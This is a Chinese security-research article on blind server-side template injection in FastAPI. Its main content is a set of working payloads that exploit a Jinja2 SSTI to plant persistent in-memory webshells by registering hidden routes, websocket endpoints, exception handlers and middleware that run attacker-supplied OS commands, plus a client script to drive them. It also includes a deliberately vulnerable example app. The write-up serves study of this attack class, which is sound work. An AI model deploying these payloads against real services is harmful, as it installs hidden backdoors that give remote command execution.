









# fastapi 框架中的无回显利用-先知社区

> **来源**: https://xz.aliyun.com/news/16340  
> **文章ID**: 16340

---

# fastapi 框架中的无回显利用

最近看到 python 的一些框架下无回显利用出现很多，包括 flask，pyramid 框架等等，然后想到之前的巅峰极客中也有考察过 fastapi 的无回显利用，这里顺便研究一下。

## 路由内存马

把存在的 ssti 漏洞代码提取出来：

```
import os  
import jinja2  
import uvicorn  
from fastapi import FastAPI  

app = FastAPI()  

@app.get("/calc")  
async def ssti(calc_req: str):  
    try:  
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(calc_req).render({"app": app})  
        if result is not None:  
            return "okokok"  
        else:  
            return "fail"  
    except Exception as e:  
        return f"<html><body><h1>Error:</h1><pre>{str(e)}</pre></body></html>"  


if __name__ == "__main__":  
    uvicorn.run(app, host="127.0.0.1", port=9000)

```

这里就不讨论写文件，盲注这些回显方式了。

### api\_route&add\_api\_route

fastapi 和 flask 注册路由方式还是很像的，都是通过修饰器来进行注册的，跟进路由修饰器 `@app.get("/calc")`，发现调用了 `api_route` 函数，



其实该函数就可以进行路由注册了，这里继续跟进发现其本质其实是通过调用 `add_api_route` 进行注册的，


其中第二个 `endpoint` 参数是路由方法，



所以最后可以调用 `add_api_route` 方法进行路由注册，

```
config.__init__.__globals__['__builtins__']['exec']('app.add_api_route("/flag",lambda:__import__("os").popen("whoami").read());',{"app":app})

```

打内存马，

```
config.__init__.__globals__['__builtins__']['exec']('app.add_api_route("/flag",lambda x:__import__("os").popen(x).read());',{"app":app})

```


然后也可以通过 `api_route` 方法进行路由注册，内存马：

```
config.__init__.__globals__['__builtins__']['exec']('app.api_route(path="/flag", methods=["GET"])(lambda x:__import__("os").popen(x).read());',{"app":app})

```

### app\_route

执行 `print(dir(app))` 查看 `app` 具有哪些属性方法，

```
['__call__', '__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'add_api_route', 'add_api_websocket_route', 'add_event_handler', 'add_exception_handler', 'add_middleware', 'add_route', 'add_websocket_route', 'api_route', 'build_middleware_stack', 'contact', 'debug', 'delete', 'dependency_overrides', 'description', 'docs_url', 'exception_handler', 'exception_handlers', 'extra', 'get', 'head', 'host', 'include_router', 'license_info', 'middleware', 'middleware_stack', 'mount', 'on_event', 'openapi', 'openapi_schema', 'openapi_tags', 'openapi_url', 'openapi_version', 'options', 'patch', 'post', 'put', 'redoc_url', 'root_path', 'root_path_in_servers', 'route', 'router', 'routes', 'separate_input_output_schemas', 'servers', 'setup', 'state', 'summary', 'swagger_ui_init_oauth', 'swagger_ui_oauth2_redirect_url', 'swagger_ui_parameters', 'terms_of_service', 'title', 'trace', 'url_path_for', 'user_middleware', 'version', 'webhooks', 'websocket', 'websocket_route']
```

注意到还有个 `add_route` 方法，看名称就知道也是添加路由的函数，



第二参数类型也是函数，但是这个函数需要接受一个 `Request` 类型的参数，并且返回一个 `Response` 类型的值，这里可以通过引入 `JSONResponse` 处理返回值。由于接受了参数 `request`，所以可以通过 `request.query_params.get("x")` 直接获得可控参数，那么构造内存马，

```
{{config.__init__.__globals__['__builtins__']['exec']('from fastapi.responses import JSONResponse;
app.add_route("/flag",lambda request:JSONResponse({"output": __import__("os").popen(request.query_params.get("x")).read()}), methods=["GET"]);',{"app":app})}}

```

或者：

```
{{config.__init__.__globals__['__builtins__']['exec']('
app.add_route("/flag",lambda request:app.__init__.__globals__["JSONResponse"]({"output": __import__("os").popen(request.query_params.get("x")).read()}), methods=["GET"]);',{"app":app})}}

```

  


其他类似的路由注册函数还有 `add_api_websocket_route`，`add_websocket_route`，它们可以注册 `websocket` 路由，其实原理都是大差不差，由于这里需要用到异步函数，但 `lambda` 不支持异步函数，所以构造Payload：

```
{{config.__init__.__globals__['__builtins__']['exec']('from+fastapi+import+FastAPI,+WebSocket;\nasync+def+websocket_endpoint(websocket:+WebSocket):\n++++await+websocket.accept()\n++++result+=+__import__("os").popen(await+websocket.receive_text()).read()\n++++await+websocket.send_text(f"Message+received:+{result}")\napp.add_api_websocket_route("/flag",+websocket_endpoint)\n',{"app":app})}}

```

然后简单写个 `websocket` 连接，

```
import asyncio  
import websockets  

async def websocket_client():  
    uri = "ws://127.0.0.1:9000/flag"  
    async with websockets.connect(uri) as websocket:  
        message = input("Enter a message to send to the server: ")  
        await websocket.send(message)  
        response = await websocket.recv()  
        print(f"Response from server: {response}")  
        await websocket.close()  
if __name__ == "__main__":  
    asyncio.run(websocket_client())

```

同样能够得到回显，


### add\_exception\_handler

注意到上面还有个 `add_exception_handler` 函数，看名称像是增加异常处理的方法，简单了解使用方法，

```
@app.exception_handler(404)  
async def exception_handler(request, exc):  
    data=os.popen("dir").read()  
    return JSONResponse(  
        status_code=404,  
        content={"message": data}  
    )

```


跟进修饰器 `@app.exception_handler(404)` ，看到调用的 `add_exception_handler` 方法，



尝试利用 `add_exception_handler` 方法来直接添加异常处理方法，

```
{{config.__init__.__globals__['__builtins__']['exec']('app.add_exception_handler(404, lambda request,exc: app.__init__.__globals__["JSONResponse"](status_code=404,content={"message":__import__("os").popen("dir").read()}))',{"app":app})}}

```

但是注入后访问不存在路径还是显示 `not found`


参考[caterpie](https://www.caterpie771.cn "boxmoe")师傅文章，直接来到异常处理函数 `wrap_app_handling_exceptions`，


注意到这里对 `exception_handlers` 和 `status_handlers` 进行了赋值，跟进调用栈知道 `scope["starlette.exception_handlers"]` 其实被赋值为 `ExceptionMiddleware` 的两个属性



然后接着 `wrap_app_handling_exceptions` 方法走，


看到这里的 `handler` 是从 `status_handlers` 中进行获取的，然后最后就是利用 `handler` 进行处理返回结果


所以这里的异常处理的 handler 其实是和 `status_handlers` 有关，也就是 `ExceptionMiddleware._status_handlers` 有关，再 `ExceptionMiddleware` 类也提供了方法来修改 `_status_handlers` 属性


所以可以构建 payload

```
{{config.__init__.__globals__['__builtins__']['exec']('app.middleware_stack.app.add_exception_handler(404, lambda request,exc: app.__init__.__globals__["JSONResponse"](status_code=404,content={"message":__import__("os").popen("dir").read()}))',{"app":app})}}

```

那为什么之前那种 payload 直接用就行，注入就不行？简单调试分析一下。

正常情况下调用的 `add_exception_handler` 到这步就结束了，



然后是在调用 `uvicorn.run(app, host="127.0.0.1", port=9000)` 启动的时候还会进行一些操作，


一直走到 `build_middleware_stack()` 方法，



这里的 `scope["app"]` 就是 `fastapi` 对象，前面执行 `add_exception_handler` 添加的 `handler` 在里面可以看到，



然后在 `build_middleware_stack()` 方法中进行了赋值，就会和上面第二次构建的 `payload` 一样了。


所以如果想用第一个 `payload`，那么在添加 handler 到 app 后，还需要执行 `build_middleware_stack()` 方法即可，这里就不写出了。

### add\_event\_handler \*

这个方法也可以添加 handler，只不过只能处理启动与关闭，其使用示例如下，

```
from fastapi import FastAPI

app = FastAPI()

# 定义启动事件
def startup_event():
    print("App is starting up!")

# 定义关闭事件
def shutdown_event():
    print("App is shutting down!")

# 使用 add_event_handler 添加事件
app.add_event_handler("startup", startup_event)
app.add_event_handler("shutdown", shutdown_event)

@app.get("/")
async def read_root():
    return {"message": "Hello, World!"}

```

## 钩子函数

### Middleware

还是和 flask 同理，fastapi 也存在类似钩子函数的东西，搜索发现中间件 `Middleware`， `Middleware` 是用来在请求到达路由之前或响应返回之前对请求或响应进行处理的组件。简单了解一下其用法，除了请求重定向中间件，跨域资源共享些功能等，其主要功能还是自定义响应前的处理方法，

```
@app.middleware("http")  
async def add_command_to_response(request: Request, call_next):  
    result = os.popen("echo 111").read().strip()  
    response = await call_next(request)  
    response.headers['result'] = result  
    return response

```

请求得到结果，


跟进 `@app.middleware("http")` 修饰，看到调用的 `add_middleware` 方法


那么构造，

```
{{config.__init__.__globals__['__builtins__']['exec']('from+starlette.middleware.base+import+BaseHTTPMiddleware;\nclass+CustomMiddleware(BaseHTTPMiddleware):\n++++async+def+dispatch(self,+request,+call_next):\n++++++++result+=+os.popen("echo+111").read().strip()\n++++++++response+=+await+call_next(request)\n++++++++response.headers["X-Custom-Header"]+=+result+\n++++++++return+response\napp.add_middleware(CustomMiddleware)',{"app":app})}}

```

注入显示报错，


需要我们在启动之前添加中间件，找到报错的地方，



满足 `self.middleware_stack` 为 none 才行，但是很显然在启动的时候执行了 `build_middleware_stack()` 方法，`self.middleware_stack` 就明显不为 none 了。

不过继续看发现如果满足条件会执行 `self.user_middleware.insert` 方法，那么这里直接执行该方法就行了，构造 payload，

```
{{config.__init__.__globals__['__builtins__']['exec']('async+def+evil(request,call_next):\n++++global+app\n++++return+app.__init__.__globals__["JSONResponse"](\n++++++++content={"message":__import__("os").popen("echo+111").read().strip()}\n++++)\napp.user_middleware.insert(0,+app.__init__.__globals__["Middleware"](\n++++app.__init__.__globals__["BaseHTTPMiddleware"],\n++++dispatch=evil\n))',{"app":app})}}

```

但是现在又遇到到了和上面相同的问题还是直接使用就行，ssti 注入就无法成功，同样追踪到 `build_middleware_stack()` 方法，看到也是把 `self.user_middleware` 添加到了中间件列表，


所以这里执行 paylaod 后，还需执行 `build_middleware_stack()` 方法，

```
{{config.__init__.__globals__['__builtins__']['exec']('app.middleware_stack=app.build_middleware_stack()',{"app":app})}}

```

最后也成功实现回显


### BackgroundTasks \*

这个钩子函数基本没啥用，因为需要依赖请求上下文，使用例子

```
from fastapi import FastAPI, Depends, BackgroundTasks

app = FastAPI()

def dependency_function(background_tasks: BackgroundTasks):
    background_tasks.add_task(write_log, "Task from dependency")

@app.get("/use-dependency/")
async def use_dependency(background_tasks: BackgroundTasks = Depends(dependency_function)):
    return {"message": "Dependency added a background task!"}

```

需要在路由中进行使用，创建了路由根本就用不上。

参考：<https://juejin.cn/post/6844904129605664782>

参考：<https://www.caterpie771.cn/2024/10/25/fastapi-%E5%86%85%E5%AD%98%E9%A9%AC%E7%9A%84%E7%A0%94%E7%A9%B6/>
